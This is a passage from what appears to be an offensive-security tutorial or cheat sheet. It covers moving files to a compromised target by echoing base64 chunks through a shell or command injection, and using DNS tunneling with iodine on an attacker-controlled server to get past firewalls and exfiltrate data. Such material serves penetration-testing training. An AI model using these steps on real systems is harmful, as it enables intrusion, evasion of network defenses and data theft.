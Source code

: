         - Encode the file and split the base64 string into small parts, as shown in Method 2.
    2. **On the Target Machine (via Shell or Command Injection):**
        
        - Run commands to append each chunk into a file on the target machine:Continue until all chunks are transferred.
            
            ```bash
            echo "base64_chunk_aa_content_here" >> /tmp/assembled_base64.txt
            echo "base64_chunk_ab_content_here" >> /tmp/assembled_base64.txt
            
            ```
            
    3. **Decode the File:** After all chunks have been sent, decode the base64 string:
        
        ```bash
        cat /tmp/assembled_base64.txt | base64 -d > output_filename
        
        ```
        
    
    ### **Method 4: Using DNS or HTTP Tunneling**
    
    If direct file transfer is blocked but you can make outbound DNS or HTTP requests, you could use a **DNS exfiltration** or **HTTP tunneling** tool to transfer data in smaller chunks. This is more advanced but can bypass some firewall restrictions.
    
    When traditional file transfer methods like `wget`, `scp`, or even manual copy-pasting aren't working due to firewalls or network restrictions, **DNS or HTTP tunneling** can be used to bypass these restrictions. These methods work by encapsulating your data in seemingly normal DNS or HTTP requests, which are typically allowed through firewalls.
    
    Here's how you can achieve file transfer via DNS or HTTP tunneling:
    
    ---
    
    ### **DNS Tunneling**
    
    DNS tunneling uses the DNS protocol to send data across a network by encoding it into DNS queries and responses. This technique can be used to bypass firewalls that don't block DNS traffic.
    
    ### **Steps for DNS Tunneling:**
    
    1. **Set up a DNS tunneling server on the attacker machine:** You need a tool like **Iodine** or **Dnscat2** to set up a DNS tunnel server. These tools encode data in DNS queries that the client sends to the server.
        
        **Example using Iodine:**
        
        - On the attacker machine (the DNS server):
            
            ```bash
           sudo apt-get install iodine
            sudo iodined -f 10.0.0.1 example.com
            
            ```
            
            Replace `example.com` with your registered domain that you control. You must configure your DNS to point to the attacker's server.
            